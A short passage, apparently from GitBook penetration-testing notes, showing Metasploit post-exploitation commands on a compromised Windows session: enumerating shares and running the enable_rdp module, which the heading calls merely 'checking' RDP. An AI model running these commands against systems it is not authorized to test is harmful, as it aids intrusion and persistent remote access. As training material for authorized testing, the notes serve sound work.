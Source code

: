 <figure><img src="../../../../../.gitbook/assets/image (20) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Enumerate any shares

```bash
search enum_shares
use post/windows/gather/enum_shares
set SESSION 1
run
```

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check if RDP is enabled

```bash
search rdp platform:windows
use post/windows/manage/enable_rdp
set SESSION 1
run
```

<figure><img src="../../../../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

